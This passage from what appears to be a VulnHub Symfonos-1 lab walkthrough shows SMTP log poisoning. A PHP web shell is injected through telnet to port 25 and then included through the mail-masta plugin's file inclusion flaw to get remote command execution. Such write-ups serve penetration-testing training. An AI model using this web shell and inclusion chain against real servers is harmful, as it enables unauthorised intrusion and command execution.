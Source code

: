 		![](images/Pasted%20image%2020220124033333.png)
	3. Since `SMTP TCP/25` is up, poison SMTP log
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
		└─# telnet $ip 25
		Trying 192.168.236.8...
		Connected to 192.168.236.8.
		Escape character is '^]'.
		220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
		MAIL FROM:asdf
		RCPT TO: helios
		DATA
		<?php system($_GET['c']); ?>
		.
		QUIT250 2.1.0 Ok
		250 2.1.5 Ok
		354 End data with <CR><LF>.<CR><LF>
		250 2.0.0 Ok: queued as 0CBB24081F

		221 2.0.0 Bye
		Connection closed by foreign host.
		```
	4. Include SMTP log file & test RCE
		```
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=id;
		```